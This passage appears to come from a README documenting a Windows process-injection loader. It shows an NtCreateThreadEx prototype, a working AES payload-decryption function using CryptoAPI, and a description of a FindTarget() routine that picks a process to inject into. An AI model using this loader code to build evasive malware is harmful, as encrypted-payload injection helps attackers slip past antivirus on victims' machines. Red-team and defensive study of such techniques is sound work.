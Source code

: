 ```c++
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer);
```

#### AES Decryption
The AES decryption function takes the AES-encrypted payload, the payload length, the decryption key, and the key length. It then decrypts the payload and destroys the contents of the key and the associated hash data.

```c++
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;

	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
			return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
			return -1;
	}
	if (!CryptHashData(hHash, (BYTE*) key, (DWORD) keylen, 0)){
			return -1;              
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
			return -1;
	}
	
	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
			return -1;
	}
	
	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);
	
	return 0;
}
```

#### Process Targeting
In reference to Process Injection Stage 1 above, the generation of a list of running processes and the opening of a handle to a target process is performed by the following `FindTarget()` function. `FindTarget()` takes a name of a function as an argument, and ultimately seeks to return an integer of the target Process ID (PID), which will subsequently be used for injection.
